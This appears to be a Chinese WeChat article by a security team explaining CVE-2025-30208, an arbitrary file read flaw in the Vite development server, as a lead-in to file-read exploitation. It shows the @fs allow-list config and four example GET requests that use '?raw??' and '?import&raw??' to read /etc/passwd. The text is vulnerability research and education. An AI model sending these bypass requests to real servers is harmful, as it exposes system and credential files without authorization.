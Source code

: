 #  从CVE-2025-30208看任意文件读取利用   
原创 渊龙Sec安全团队  渊龙Sec安全团队   2025-04-03 21:11  
  
> 微信公众号：**渊龙Sec安全团队**  
  
为国之安全而奋斗，为信息安全而发声！  
  
如有问题或建议，请在公众号后台留言  
**如果你觉得本文对你有帮助，欢迎在文章底部赞赏我们**  
  
### 0# 概述  
  
师傅们好久不见！最近不是特别忙，就研究研究最新的漏洞![](https://res.wx.qq.com/t/wx_fed/we-emoji/res/assets/newemoji/2_04.png "")  
  
  
刚好最近一大批漏洞都爆出来了，比如 CVE-2025-1097, CVE-2025-1098, CVE-2025-24514, CVE-2025-1974  
 Kubernetes Ingress-Nginx Admission Controller RCE Escalation，是危害性极大的高危漏洞，在内网渗透中能直接击穿K8S集群。  
  
这些高危漏洞其实分析文章很多，看国内外众多大佬的分析都非常精彩，这里我也不献丑了![](https://res.wx.qq.com/t/wx_fed/we-emoji/res/assets/Expression/Expression_45@2x.png "")  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/fiajytAx7Ibf7ZmPBicA3J3DSBxTA4kbmrtdnicOJiaZYTnyKyNVqXBJSzWGc7AheibfYGCOu6bSOeFUW3OdfhRPicsg/640?wx_fmt=png&from=appmsg "")  
  
但引起我关注的漏洞是 CVE-2025-30208  
 Vite Development Server Arbitrary File Read 这个任意文件读取漏洞。  
  
其实我们很多时候都轻视了任意文件读取漏洞，特别是很多刚入行学习网安的师傅，往往瞧不上任意文件读取漏洞，其实这是一种偏见。  
  
今天就从 CVE-2025-30208  
 发散去讲任意文件读取漏洞，这种漏洞是有操作空间的，况且 CVE-2025-30208  
 利用简单、覆盖面广，那就有必要拎出来和大家交流一下，今天我就来抛砖引玉一下![](https://res.wx.qq.com/t/wx_fed/we-emoji/res/assets/newemoji/Yellowdog.png "")  
  
### 1# 漏洞原理？  
  
CVE-2025-30208  
 漏洞原理非常简单，就简单提一下：  
  
Vite 开发服务器提供 @fs  
 机制，用于防止访问 Vite 允许列表之外的文件。然而，由于 URL 解析时的正则表达式处理不当，攻击者可以通过 ?raw??  
 或 ?import&raw??  
 等查询参数绕过访问限制，从而读取任意文件。  
  
在 Vite 服务器的 URL 处理逻辑中，@fs  
 机制原本用于限制对非白名单目录的访问，例如：  
```
1server: {2  fs: {3    allow: [path.resolve(__dirname, 'src')]4  }5}
```  
  
Vite 在 URL 解析过程中会移除部分特殊字符，而未正确考虑查询参数的影响，导致攻击者可以构造类似如下的请求绕过安全检查：  
```
1GET /etc/passwd?raw??2GET /etc/passwd?import&raw??3GET /@fs/etc/passwd?raw??4GET /@fs/etc/passwd?import&raw??
```  
  